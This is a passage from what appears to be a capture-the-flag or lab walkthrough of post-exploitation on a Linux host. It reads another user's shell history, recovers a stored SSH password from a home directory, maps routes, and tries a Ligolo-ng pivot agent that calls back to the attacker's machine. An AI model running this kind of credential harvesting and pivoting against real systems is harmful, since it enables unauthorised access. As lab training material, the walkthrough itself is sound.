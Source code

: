 Gathered two addresses from Alex history logs: 1.11 and 5.2.

```
root@DNS:/home# cat /home/alex/.bash_history

ping 192.168.1.11
cd /var/www
ls
wget http://192.168.1.11:8888/DNS.zip
ping 192.168.5.2
su root
nc -lvp 8888
...
```

There was a password on Dave’s home directory as well.

```
root@DNS:/home/dave# ls -l
total 8
-rw-r--r-- 1 root root 19 Jul 17  2018 ssh
-rw-rw-r-- 1 dave dave 33 Sep  3  2018 user.txt
root@DNS:/home/dave# cat ssh
dave
<REDACTED>
```

192.168.5.0/24 network is reachable from 122.4.

```
root@DNS:/home/alex# ip route list
192.168.5.0/24 via 192.168.122.5 dev ens3 
192.168.122.0/24 dev ens3  proto kernel  scope link  src 192.168.122.4
    
root@DNS:/home/alex# ping -c 1 192.168.1.11
connect: Network is unreachable

root@DNS:/home/alex# ping -c 1 192.168.5.2
PING 192.168.5.2 (192.168.5.2) 56(84) bytes of data.

--- 192.168.5.2 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
```

122.4 is a 32-bit architecture so we can't use Ligolo-ng for a double-pivot (we won't need it).

```
root@DNS:/tmp# ./agent -connect 192.168.122.1:11601 -ignore-cert
bash: ./agent: cannot execute binary file: Exec format error

root@DNS:/tmp# uname -a
Linux DNS 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:22:43 UTC 2018 i686 athlon i686 GNU/Linux
```

Nmap is already installed on the box so let’s scan 5.2. As we can see, DNS port is open but it stands as “closed”. Think about firewalls every time you see a “closed” or “filtered” port.
